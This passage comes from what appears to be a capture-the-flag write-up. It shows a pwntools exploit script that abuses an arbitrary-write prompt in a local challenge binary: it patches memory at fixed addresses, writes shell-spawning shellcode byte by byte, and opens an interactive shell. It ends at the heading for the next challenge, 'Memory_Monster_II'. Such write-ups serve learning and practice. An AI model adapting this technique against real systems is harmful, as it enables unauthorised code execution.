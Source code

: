 ```plain
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

def write_value(addr, value): 
    p.sendlineafter(b"addr: ", addr) 
    p.sendlineafter(b"value: ", value) 

write_value(b"0x600bcf", b"0xff") 
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20") 

shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i])) 

write_value(b"0x600bcf", b"0xff") 
p.interactive()
```

## Memory\_Monster\_II

### 思路

[![](assets/1706959474-673a4bf3c9cac8bcec339c9bdc829125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151659-bad8336e-bb51-1.png)
